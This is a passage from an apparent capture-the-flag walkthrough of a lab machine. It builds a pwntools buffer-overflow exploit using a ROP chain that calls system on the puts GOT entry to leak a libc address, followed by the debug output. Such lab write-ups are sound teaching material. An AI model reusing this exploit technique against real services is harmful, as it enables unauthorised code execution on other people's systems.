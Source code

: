     0x000000000040119d: nop; mov rdi, rax; call 0x1030; mov eax, 0; leave; ret; 
    

The gadget at 0x40120b looks perfect.

This all builds together to look like:

    
    
    #!/usr/bin/env python
    
    from pwn import *
    
    context(os="linux", arch="amd64")
    context(log_level='DEBUG')
    
    junk = "A"*120
    
    got_puts = p64(0x404018)
    plt_system = p64(0x401040)
    pop_rdi  = p64(0x40120b)
    main     = p64(0x40115f)
    payload = junk + pop_rdi + got_puts + plt_system + main
    
    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    p.recvline()
    

When I run it, I get:

    
    
    root@kali# ./pwn_safe-m1_stg1.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [DEBUG] Received 0x3e bytes:
        ' 15:12:49 up 17:00,  0 users,  load average: 0.00, 0.00, 0.00\n'
    [DEBUG] Sent 0x99 bytes:
        00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
        *
        00000070  41 41 41 41  41 41 41 41  0b 12 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
        00000080  18 40 40 00  00 00 00 00  40 10 40 00  00 00 00 00  │·@@·│····│@·@·│····│
        00000090  5f 11 40 00  00 00 00 00  0a                        │_·@·│····│·│
        00000099
    [DEBUG] Received 0x7 bytes:
        'sh: 1: '
    [DEBUG] Received 0x50 bytes:
        00000000  90 ff 80 65  21 7f 3a 20  6e 6f 74 20  66 6f 75 6e  │···e│!·: │not │foun│
        00000010  64 0a 20 31  35 3a 31 32  3a 34 39 20  75 70 20 31  │d· 1│5:12│:49 │up 1│
        00000020  37 3a 30 30  2c 20 20 30  20 75 73 65  72 73 2c 20  │7:00│,  0│ use│rs, │
        00000030  20 6c 6f 61  64 20 61 76  65 72 61 67  65 3a 20 30  │ loa│d av│erag│e: 0│
        00000040  2e 30 30 2c  20 30 2e 30  30 2c 20 30  2e 30 30 0a  │.00,│ 0.0│0, 0│.00·│
        00000050
    [*] Closed connection to 10.10.10.147 port 1337
    

I can see the address in there before the string “: not found”. I’ll add some
code to collect it, and turn off debug output:
